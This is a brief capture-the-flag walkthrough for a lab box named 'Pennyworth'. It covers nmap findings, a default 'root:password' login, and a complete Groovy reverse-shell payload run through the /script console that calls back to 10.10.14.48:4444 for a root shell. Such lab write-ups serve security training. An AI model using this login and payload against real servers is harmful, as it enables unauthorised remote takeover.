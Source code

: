 # Pennyworth

## Enumeration

### nmap
```
PORT      STATE    SERVICE       REASON      VERSION
2035/tcp  filtered imsldoc       no-response
2126/tcp  filtered pktcable-cops no-response
2381/tcp  filtered compaq-https  no-response
3689/tcp  filtered rendezvous    no-response
5087/tcp  filtered biotic        no-response
5810/tcp  filtered unknown       no-response
8080/tcp  open     http          syn-ack     Jetty 9.4.39.v20210325
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
8873/tcp  filtered dxspider      no-response
9071/tcp  filtered unknown       no-response
18988/tcp filtered unknown       no-response
```
login as `root:password` (mostly bruteforce)

you can run groovy scripts at `/script` dir


Google "groovy reverse shell" if you are not used to groovy scripts

payload all the things got that too

here is mine :)

```
String host="10.10.14.48";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

on your netcat listener you get root directly so just go grab the flag



